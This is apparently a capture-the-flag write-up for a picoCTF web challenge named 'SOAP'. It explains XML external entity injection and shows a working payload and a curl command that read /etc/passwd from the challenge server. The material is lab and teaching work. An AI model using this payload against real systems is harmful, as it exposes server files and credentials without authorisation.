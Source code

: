 ## SOAP

difficulty: medium

---

## sol

the challenge hits to xml external entity being the technique to solve the challenge
i found an [article](https://portswigger.net/web-security/xxe) explaining how to use xml injection to read files on a server

when clicking the icons on the site a xml post request is sent which looks like this:

~~~
POST /data HTTP/1.1
Host: saturn.picoctf.net:49853
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Content-Length: 61
Origin: http://saturn.picoctf.net:49853
Connection: keep-alive
~~~

with the payload:
~~~
<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
~~~

we can see this is an xml request from the content type being application/xml
the payload defined what we want from the server

by adding an external entity xxe which is the content of the passwd file using:

~~~
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
~~~

and then changing the id number for &xxe; we will be sent the contents of the file.

all we have to do is copy the post request and add xml code:

~~~
curl 'http://saturn.picoctf.net:49853/data' \
    -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' \
    -H 'Accept: */*' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/xml' \
    -H 'Origin: http://saturn.picoctf.net:49853' \
    -H 'Connection: keep-alive' \
    --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>'
~~~

